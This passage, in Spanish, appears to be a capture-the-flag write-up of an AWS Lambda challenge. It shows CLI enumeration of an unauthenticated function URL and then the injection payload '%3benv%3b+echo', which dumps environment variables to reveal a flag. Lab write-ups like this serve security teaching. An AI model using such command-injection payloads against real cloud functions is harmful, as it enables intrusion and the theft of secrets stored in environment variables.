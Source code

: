Vemos que acepta un parámetro el cual se adjunta a otra cadena para formar un comando. Sin embargo, si queremos ejecutar la función…

```
└─$ aws lambda invoke --function-name myUMAlambda out.json

An error occurred (AccessDeniedException) when calling the Invoke operation: User: arn:aws:iam::125047939123:user/Hopper is not authorized to perform: lambda:InvokeFunction on resource: arn:aws:lambda:us-east-1:125047939123:function:myUMAlambda because no identity-based policy allows the lambda:InvokeFunction action

```

…salta un error de permisos `AccessDeniedException`.

Despues de aprender un poco mas sobre las lambdas descubrimos algo:

[https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-services/aws-lambda-enum#via-exposed-url](https://cloud.hacktricks.xyz/pentesting-cloud/aws-security/aws-services/aws-lambda-enum#via-exposed-url)

```
└─$ aws lambda list-function-url-configs --function-name myUMAlambda 
{
    "FunctionUrlConfigs": [
        {
            "FunctionUrl": "https://4bl3w227yjxcbli3esifk5obsi0ljyzn.lambda-url.us-east-1.on.aws/",
            "FunctionArn": "arn:aws:lambda:us-east-1:125047939123:function:myUMAlambda",
            "CreationTime": "2024-02-18T13:05:56.102216Z",
            "LastModifiedTime": "2024-02-18T13:05:56.102216Z",
            "AuthType": "NONE",
            "InvokeMode": "BUFFERED"
        }
    ]
}
```

Gracias a `list-function-url-configs` obtenemos la URL publica de la función, ahora nos toca ver si podemos utilizarla:

![Untitled](Untitled%2017.png)

Vemos que el código que encontramos anteriormente se ejecuta y obtenemos el output esperado. Ahora solo toca inyectar algún comando para explotar esta función:

![Untitled](Untitled%2018.png)

Y con este payload:

```
%3benv%3b+echo
```

Aprovechamos el `;` para romper el comando y conseguir leer el output de los comandos, conseguimos la primera flag de este reto de lambda: `UAM{c0e100c5c5fde2fdd4b254bf2e79742d}`

---
